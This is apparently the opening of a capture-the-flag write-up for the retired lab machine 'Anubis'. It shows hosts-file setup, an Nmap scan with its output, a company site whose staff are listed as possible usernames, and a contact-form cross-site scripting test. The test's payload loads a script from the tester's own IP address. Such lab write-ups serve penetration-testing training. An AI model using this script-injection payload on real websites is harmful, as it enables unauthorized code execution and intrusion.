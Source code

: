 # Anubis

This is the write-up for the box Anubis that got retired at the 29th January 2022.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.102    anubis.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/anubis.nmap 10.10.11.102
```

```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
443/tcp open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| tls-alpn:
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2022-12-24T15:52:24+00:00; +1h00m01s from scanner time.
| ssl-cert: Subject: commonName=www.windcorp.htb
| Subject Alternative Name: DNS:www.windcorp.htb
| Not valid before: 2021-05-24T19:44:56
|_Not valid after:  2031-05-24T19:54:56
445/tcp open  microsoft-ds?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTPS (Port 443)

The TLS certificate contains a hostname _www.windcorp.htb_ that has to be added to our _/etc/hosts_ file to access it.
The website on the hostname looks like a custom developed company website and has potential usernames:

- Walter White (Chief Executive Officer)
- Sarah Jhonson (Product Manager)
- William Anderson (CTO)
- Amanda Jepson (Accountant)

On the bottom of the page is a contact form and **Cross Site Scripting (XSS)** can be tested there:
```
Name: 	Test1
E-mail: 	test@test.local
Subject: 	Test 1
Message: 	<script src="https://10.10.14.3/test.js"></script>
```
